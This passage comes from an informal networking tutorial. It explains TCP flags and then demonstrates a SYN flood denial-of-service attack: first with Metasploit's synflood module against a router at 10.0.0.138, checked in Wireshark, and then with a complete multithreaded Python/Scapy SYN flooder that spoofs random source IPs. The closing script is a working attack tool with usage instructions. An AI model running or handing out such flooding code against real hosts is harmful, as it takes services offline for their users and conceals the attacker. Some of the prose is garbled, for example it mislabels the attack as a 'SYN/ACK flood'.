So this leave us with 3 bits reserved and 9 bits used for flags in TCP segment.

_**Figure 45** Reserved and flags._

**summary**

The ECN bits used with some related bit from IP packets and their goal is to notify about congestion that occur in the network and decrement the window size value.

### TCP attacks.

OK guys, if you read so far, you have pritty good knowledge about the TCP session. Now it's time to start to game with the coolest stuff, there are some attacks that look like deny of service and some of them are focus of disrupting some exist TCP session.

**TCP SYN/ACK Flood Attack** - in this attack we will flood our victim with SYN/ACK requesting for initiate a session but we never done the three way handshake which mean that the victim holds these session open and awaiting the final packet in the sequence so it fill up the available connections and denies any requesting clients access.

To perform this attack I'm going to use msfconsole in my Linux Kali distribution, on the terminal type `msfconsole` and Metasploit Framework will open. After the msfconsole will open type `use auxiliary/dos/tcp/synflood`

_**Figure 46** Metasploit Framework._

To see the options we have just type `show options`, we will setup the RHOST which is the ip address of our victim and we use port 80 as default.

_**Figure 47** rhost._

The attack will going to be on 10.0.0.138 port 80 which is the http service. To initiate the attack we only need to type `exploit` and hit enter.

_**Figure 48** exploit._

now if I trying to get to my router at http service I will not be able to connect and I will get an error after long time.

_**Figure 49** HTTP connecting error._

tcp.flags.ack == 1

I opened Wireshark and I saw many TCP segment that contain only SYN flag in active form.

_**Figure 50** Wireshark sniffing with SYN._

I done the same attack but now I setup my source IP, if you doesnt set the source IP it will be randomize, My filter is `tcp.flags.ack == 1 || tcp.flags.syn == 1` and we can see the SYN and ACK session between my DG and my Kali host.

_**Figure 51** More sniffing._

To kill the attack just type ctrl+c, in my case after I killed the attack I was able to connect my DG.



#!/usr/bin/env python
#########################################
#
# SYNflood - A multithreaded SYN Flooder
# author: arthurnn
#
#
#########################################
import socket, random, sys, threading
from scapy.all import *

if len(sys.argv) != 3:
	print "Usage: %s <Target IP> <Port>" % sys.argv[0]
	sys.exit(1)

target = sys.argv[1]
port = int(sys.argv[2])

total = 0
conf.iface='en1';#network card XD

class sendSYN(threading.Thread):
	global target, port
	def __init__(self):
		threading.Thread.__init__(self)
	def run(self):
		i = IP()
		i.src = "%i.%i.%i.%i" % (random.randint(1,254),random.randint(1,254),random.randint(1,254),random.randint(1,254))
		i.dst = target

		t = TCP()
		t.sport = random.randint(1,65535)
		t.dport = port
		t.flags = 'S'

		send(i/t, verbose=0)

print "Flooding %s:%i with SYN packets." % (target, port)
while 1:
	sendSYN().start()
	total += 1
	sys.stdout.write("\rTotal packets sent:\t\t\t%i" % total)

  

